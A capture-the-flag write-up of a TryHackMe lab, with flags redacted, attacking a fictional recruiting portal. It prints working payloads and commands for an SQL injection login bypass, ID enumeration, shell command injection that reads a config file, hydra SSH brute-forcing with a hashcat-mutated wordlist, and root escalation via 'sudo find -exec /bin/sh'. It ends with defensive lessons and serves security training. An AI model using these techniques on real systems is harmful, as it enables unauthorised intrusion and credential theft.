


> Writeup of the **Operation Promotion** room (TryHackMe): a **SQLi** login bypass, an **IDOR** in the
> user lookup, **command injection** in a health-check, a leaked `db.conf`, a seasonal password mutated
> with a `hashcat` rule + `hydra` over SSH, and privilege escalation to root via `sudo find`. Flags are
> shown **redacted** (`REDACTED`). _[Leia em português](/posts/thm-operation-promotion/)._

The room's plot is a promotion exam: you're up for a step at **Hadron Security** and get a solo
engagement against **RecruitCorp**, a recruiting firm with a public portal. "Compromise the host, grab
the flags, prove you're ready for the Penetration Tester title." The irony: a company that makes a
living vetting candidates can't vet its own credentials — and those credentials are exactly what bring
the house down.

The whole chain in one sentence: enumerate the portal → break into `/admin` with a **SQLi bypass** →
walk the user records via **IDOR** → find a health-check that **runs commands in a shell** → read the
`db.conf` that leaked out of source control → take the seasonal hint off the home page, **mutate the
password with a `hashcat` rule**, and **brute-force SSH** with `hydra` → become `jford` → `sudo -l`
shows `find` as root → **GTFOBins** and game over.

## Recon: one portal, a mute SMB, and an /admin in robots.txt

Quick scan with [rustscan](https://github.com/RustScan/RustScan) driving nmap behind it:

```console
$ rustscan -b 500 -a promotion.thm --top -- -sC -sV -Pn
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: RecruitCorp - Careers Portal
| http-robots.txt: 1 disallowed entry
|_/admin/
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
```

Four ports. SSH on 22, an Apache on 80 serving the **RecruitCorp – Careers Portal**, and Samba on
139/445. Two gifts already in the scan: `robots.txt` hands over a "forbidden" `/admin/`, and Samba begs
for a look. I start with SMB, which goes nowhere — worth noting the dead end:

```console
$ nxc smb promotion.thm -u guest -p '' --shares
SMB  promotion.thm  445  recruitcorp  [*] Unix - Samba (name:recruitcorp) (domain:recruitcorp) (signing:False) (Null Auth:True)
SMB  promotion.thm  445  recruitcorp  [+] recruitcorp\guest:
SMB  promotion.thm  445  recruitcorp  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Guest gets in with _null auth_, but listing shares returns `STATUS_ACCESS_DENIED`. End of that road.
The portal's home is corporate — and, accidentally, generous:



Note the **"Spring 2026 Hiring Drive"** card. Keep that season in mind — it becomes a password later.
The path that matters is the one `robots.txt` asked nobody to look at: `/admin/`.

## SQLi: the login that opens with a closed query

`/admin/` is a "Sign in — Internal admin portal. Authorised personnel only." App logins backed by a
local database are almost always hand-built queries, so the first test is a SQLi **authentication
bypass**. The classic quote payload:

```text
username: admin' or '1'='2
password: admin
```


The logic: the query is something like `… WHERE username='<u>' AND password='<p>'`. Injecting the
username turns it into `WHERE username='admin' or '1'='2' AND password='admin'`. By precedence, `AND`
binds first, leaving `username='admin' OR (…)` — and `username='admin'` is already true. The syntax
stays **closed**, with no dangling comment, and the login matches the first row. A `302` straight to
`/admin/dashboard.php`:


Inside, two toys: a **User Lookup** by ID and — buried deeper — a maintenance health-check.

## IDOR: the user lookup enumerates the whole roster

The User Lookup takes an ID and returns the record. No per-record access control: changing the `id` in
the URL (`/admin/users/lookup.php?id=1`, `?id=2`, …) walks the entire table. A textbook **IDOR**. From
`id=1` to `id=7`, the whole payroll:

```text
id=1  admin     admin      Primary admin account.
id=2  mvasquez  recruiter  Owns the EMEA pipeline.
id=3  tparker   recruiter  Owns the AMER pipeline.
id=4  lhayes    analyst    Reporting only.
id=5  kchen     recruiter  Out on leave.
id=6  rdavis    analyst    Reporting only.
id=7  sysmaint  system     Service account for /admin/sysmaint-checks/ping.php. Do not disable.
```

`id=7` is the one that matters — it points at the next step:



A service account, `sysmaint`, dedicated to `/admin/sysmaint-checks/ping.php`. The panel just handed me
the address of the endpoint that runs ping — and every ping field is suspect.

## Command injection: the health-check talks straight to the shell

`ping.php` takes a host in the `host` parameter and pings it. A ping built with `shell=True` is
practically begging for **command injection**: just chain with `;`. The endpoint returns `text/plain`,
so the command output comes back raw on the page:

```text
GET /admin/sysmaint-checks/ping.php?host=127.0.0.1;id;cat ../../config/db.conf
```


```console
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.025 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# RecruitCorp application database config
# Pulled out of source control - DO NOT COMMIT.
db_host=localhost
db_name=recruitcorp
db_user=jford
db_pass_hash=$2b$10$QzkXmGndA2cQLozO3xAN6eWKrl6ZXyzhYTJNF67exOmTmN5oVSEfq
db_engine=sqlite3
```

RCE as `www-data`. An `ls -la /var/www/html` shows a `config/` directory, and inside it the prize: the
**`db.conf`**, with the most honest comment on the internet — _"Pulled out of source control - DO NOT
COMMIT."_ It hands over the `jford` user and the bcrypt hash of the database password.

## Cracking + hydra: the season's password, mutated and sprayed

`db_pass_hash` is a **bcrypt** (`$2b$10$…`). You could throw `hashcat -m 3200` with `rockyou` at it and
wait — bcrypt is deliberately slow, expensive on purpose. But the room already whispered the answer: the
home advertised a **"Spring 2026 Hiring Drive"**. A corporate password shaped like a season is a classic
pattern, so instead of cracking the hash I start from the base `spring2026` and generate variations with
a `hashcat` rule:

```console
$ echo 'spring2026' > base.txt
$ wget https://raw.githubusercontent.com/hashcat/hashcat/refs/heads/master/rules/dive.rule
$ hashcat --stdout base.txt -r dive.rule > wordlist.txt
$ wc -l wordlist.txt
98670 wordlist.txt
```

`dive.rule` blows the base word into ~99k mutations (capitalization, suffixes, leet, reversals…). With
the list in hand, `hydra` against SSH targeting `jford`:

```console
$ hydra -l jford -P wordlist.txt promotion.thm ssh
[22][ssh] host: promotion.thm   login: jford   password: spring2026!
1 of 1 target successfully completed, 1 valid password found
```

`jford : spring2026!`. The winning mutation was just a trailing `!` — and, as it happens, it's exactly
what the `db.conf` bcrypt protected: the database password **reused** as the system password. The usual
sin.

## User: SSH as jford

The credential walks right in over SSH:

```console
$ ssh jford@promotion.thm
jford@recruitcorp:~$ id
uid=1001(jford) gid=1001(jford) groups=1001(jford)
jford@recruitcorp:~$ cat user.txt
THM{REDACTED  ·  user}
```

First flag in the pocket.

## Root: sudo find is a /bin/sh wearing a root badge

The first post-shell reflex is `sudo -l`:

```console
jford@recruitcorp:~$ sudo -l
User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find
```

`find` as root, no password. [GTFOBins](https://gtfobins.github.io/gtfobins/find/) has the recipe ready:
`find`'s `-exec` runs any command, and if `find` runs as root, so does `/bin/sh`:

```console
jford@recruitcorp:~$ sudo /usr/bin/find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag.txt
THM{REDACTED  ·  root}
```

Root. The whole box — promotion granted.

## Takeaways

Operation Promotion has no exotic trick: it's a **clean sequence of basic mistakes**, each opening the
door to the next. It's a great map of "hygiene nobody does":

- **A secret in `robots.txt`.** The "forbidden" `/admin/` is the first place everyone looks. Hiding a
  path in `robots.txt` is publishing it in bold.
- **SQLi login bypass.** A query built by concatenation, no prepared statement. `admin' or '1'='2`
  closes the syntax and passes. Parameterize your queries — it's 2026.
- **IDOR in the lookup.** Authenticated isn't authorized. `lookup.php?id=` returned any record without
  checking scope; you can enumerate the whole roster by changing a number.
- **Command injection in the health-check.** `ping` with `shell=True` and a `;` in the parameter. Never
  hand input to the shell; if you must ping, use the network API, not a `system()`.
- **A secret that leaked out of version control.** `db.conf` inside the webroot, readable by the app,
  with a "DO NOT COMMIT" comment that only confirms it was committed. Keep secrets out of the code, and
  out of the webroot.
- **Seasonal password + reuse.** `spring2026!` was born from a predictable pattern (the season printed
  on the home page) and then reused between the database and SSH. A `hashcat` rule turns the hint into
  99k attempts; `hydra` does the rest.
- **`sudo` too wide.** `find` with `NOPASSWD` is root in disguise — `-exec` is a shell. A `sudo` rule
  must be exactly the size of the task, and binaries with `-exec`/`-e`/shell escapes should never be in
  it.

The moral fits the theme: a firm that recruits talent never vetted its own credentials, and every rushed
shortcut — the secret in the repo, the season's password, the loose `sudo` — became a step up. The house
wasn't torn down by a 0day; it was opened with the keys left under the mat.
